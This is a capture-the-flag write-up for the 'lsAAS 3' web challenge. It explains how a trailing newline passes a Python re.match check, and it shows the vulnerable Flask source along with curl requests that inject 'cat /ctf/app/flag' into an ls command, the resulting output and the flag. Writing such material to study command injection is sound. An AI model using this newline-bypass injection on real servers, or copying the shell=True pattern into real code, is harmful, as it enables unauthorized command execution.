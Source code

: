 # lsAAS 3

## Write-Up

When accessing the website, we can see that, with a given folder path, it displays its content using `ls` command. We note also that the previous commands injections of `lsAAS 1` and `lsAAS 2` doesn't work and we need a new exploit to get the flag. When trying, we get the following error :

  <br>
  <div class="result"><p style="@import url('https://fonts.googleapis.com/css2?family=Montserrat:wght@200;300&family=Roboto+Mono:wght@300&display=swap'); 
    color:red;
    font-weight: bold;
    position: relative;
    margin: auto;
    font-family: 'Roboto Mono', monospace;">That&#39;s not allowed</p>
  </div>
  <br>

After playing arround with the input, we can find that flag is in `/ctf/app/flag`.

Also, we can see that the `app.py`, the index of the server, is provided in the attachements :


```py
import subprocess
from flask import Flask, request, render_template
from dotenv import load_dotenv
import re

load_dotenv()

app = Flask(__name__)
folder_re = re.compile("^[/0-9A-Za-z_ ]+$")
option_re = re.compile("^(all|human-readable|reverse)$")

@app.route("/", methods=["GET", "POST"])
def index():
    output, error = '', ''
    if request.method == "POST" : 
        folder = request.form.get("folder", "")
        option = request.form.get("option", "")
        try : 
            if folder_re.match(folder) and option_re.match(option):
                output = subprocess.run(f"ls -l --{option} {folder}", shell=True, timeout=2, capture_output=True).stdout.decode()
            else:
                error = "That's not allowed"
        except:
            error = "Something went wrong and I'm too lazy to investigate"
    return render_template("index.html", statement=output, error=error) 

# Error handling

@app.errorhandler(404)
def not_found(e):
    return render_template("404.html"), 404

@app.errorhandler(500)
def server_error(e):
    return render_template("500.html"), 500
```

After analysing it, we can notice that our inputs `option` and `folder` are matched with some `regex` patterns and then added in the `ls` command. So, we can't add any special character to add inject other commands, but it is obvious that the exploit is using a **Command Injection** vulnerabilty, but also, other vulnerabilities.

After doing some research, we can find that the `re.match()` function used has also its own vulnerability : 

 > Using python `re.match()` function to validate a user input can lead to bypass because it will only match at the beginning of the string **and not at the beginning of each line.**

It also matches words and strings even if the re is some new line at the end of it :

```profile
In [3]: re.match('all$', 'all\n')
Out[3]: <re.Match object; span=(0, 3), match='all'>

In [4]: re.match('all$', 'all')
Out[4]: <re.Match object; span=(0, 3), match='all'>

In [5]: re.match('all$', 'all\na')

In [6]: re.match('all$', 'alla')
```


So, by adding a new line to one of the inputs, it won't cause an error and will display the exact command like without the new line :

```
curl 'http://lsaas-3.web-server.challs.ctf.shellmates.club/' -X POST --data "option=all" --data "folder=/ctf/app %0a"
```

**Common mistake :** So, we must use urlencoding the chars to all non printable characters and control characters like new line, don't use it directly `\n`, needs to be `%0a`

```html
<!DOCTYPE html>
<html>
...
  <button type="submit">Submit</button>
  </form>
    <br>
  <br>
  <br>
  <br>
  <br>

  <div class="result">
  <pre id="nom" style="     @import url('https://fonts.googleapis.com/css2?family=Montserrat:wght@200;300&family=Roboto+Mono:wght@300&display=swap');
                          color:green;
                        font-weight: bold;
                        position: relative;
                        margin: auto;
                        font-family: 'Roboto Mono', monospace;">
                        total 36
drwxr-xr-x 3 root root 4096 Dec 24 21:45 .
drwxr-xr-x 1 root root 4096 Dec 24 21:45 ..
-rw-rw-r-- 1 root root   24 Dec 24 21:38 .env
-rw-rw-r-- 1 root root  143 Dec 24 21:38 app.ini
-rw-rw-r-- 1 root root 1094 Dec 24 21:38 app.py
-rw-rw-r-- 1 root root   72 Dec 24 21:38 flag
-rw-rw-r-- 1 root root   41 Dec 24 21:38 requirements.txt
drwxrwxr-x 2 root root 4096 Dec 24 21:44 templates
-rw-rw-r-- 1 root root   62 Dec 24 21:38 wsgi.py

  </pre></div>

  <div class="result"><p style="     @import url('https://fonts.googleapis.com/css2?family=Montserrat:wght@200;300&family=Roboto+Mono:wght@300&display=swap');
                          color:red;
                        font-weight: bold;
                        position: relative;
                        margin: auto;
                        font-family: 'Roboto Mono', monospace;"></p>
  </div>
</body>

</html>
```

But a command like this won't give us the opportunity to inject new command to read the flag, you can try to add more chars after the new line, it won't match. The strategy is to actually put the new line character in the `option` input, and then inject your command in the `folder` input.

```
curl 'http://lsaas-3.web-server.challs.ctf.shellmates.club/' -X POST --data "option=all%0a" --data "folder=cat /ctf/app/flag" 
```

```html
<!DOCTYPE html>
<html>
...
  <button type="submit">Submit</button>
    </form>
    <br>
        <br>
        <br>
        <br>
        <br>

        <div class="result">
        <pre id="nom" style="     @import url('https://fonts.googleapis.com/css2?family=Montserrat:wght@200;300&family=Roboto+Mono:wght@300&display=swap');
                                color:green;
                                                        font-weight: bold;
                                                        position: relative;
                                                        margin: auto;
                                                        font-family: 'Roboto Mono', monospace;">
                                                        total 36
drwxr-xr-x 3 root root 4096 Dec 24 21:45 .
drwxr-xr-x 1 root root 4096 Dec 24 21:45 ..
-rw-rw-r-- 1 root root   24 Dec 24 21:38 .env
-rw-rw-r-- 1 root root  143 Dec 24 21:38 app.ini
-rw-rw-r-- 1 root root 1094 Dec 24 21:38 app.py
-rw-rw-r-- 1 root root   72 Dec 24 21:38 flag
-rw-rw-r-- 1 root root   41 Dec 24 21:38 requirements.txt
drwxrwxr-x 2 root root 4096 Dec 24 21:44 templates
-rw-rw-r-- 1 root root   62 Dec 24 21:38 wsgi.py
shellmates{I_sH0uLD_hAvE_DOcUM3ntED_WelL_AB0UT_PYTH0n_R3gex_BefOR3_Th4t}
        </pre></div>

        <div class="result"><p style="     @import url('https://fonts.googleapis.com/css2?family=Montserrat:wght@200;300&family=Roboto+Mono:wght@300&display=swap');
                                color:red;
                                                        font-weight: bold;
                                                        position: relative;
                                                        margin: auto;
                                                        font-family: 'Roboto Mono', monospace;"></p>
        </div>
</body>

</html>
```

**Note :** When adding your new line character, be sure that the rest of the string matches the pattern, otherwire it won't work (One space is enough to fire a mismatch) :


```
curl 'http://lsaas-3.web-server.challs.ctf.shellmates.club/' -X POST --data "option=all %0a" --data "folder=cat /ctf/app/flag" 
```

```html
<!DOCTYPE html>
<html>
...
  <button type="submit">Submit</button>
        </form>
    <br>
        <br>
        <br>
        <br>
        <br>

        <div class="result"><p style="     @import url('https://fonts.googleapis.com/css2?family=Montserrat:wght@200;300&family=Roboto+Mono:wght@300&display=swap');
                                color:red;
                                                        font-weight: bold;
                                                        position: relative;
                                                        margin: auto;
                                                        font-family: 'Roboto Mono', monospace;">That&#39;s not allowed</p>
        </div>
</body>

</html>
```

To summarize, adding a new line to a string won't make it mismatch the pattenr, like  `all` or `all\n` do match. This property is commun in most languages that uses `regex` like `php` or `python`. Doesn't occur though in `javascript`.

## Flag

shellmates{I_sH0uLD_hAvE_DOcUM3ntED_WelL_AB0UT_PYTH0n_R3gex_BefOR3_Th4t}

## More Information

 - A Python Regular Expression Bypass Technique For SQL Injections : https://www.secjuice.com/python-re-match-bypass-technique/?fbclid=IwAR3f9kc5j_GN_rkP4HTsGIrFnnOyZQm-ppJKrKfTDiNa0c8H4ncw6Ouy8vs

 - **`%0A`** is URL-encoding of a newline, which you would use in (obviously) URLs. `&x0a;` would be the HTML-encoding of the same character that you would use in HTML, but it doesn't work, for a variety of reasons. To break a line in HTML, you can use <br> tag.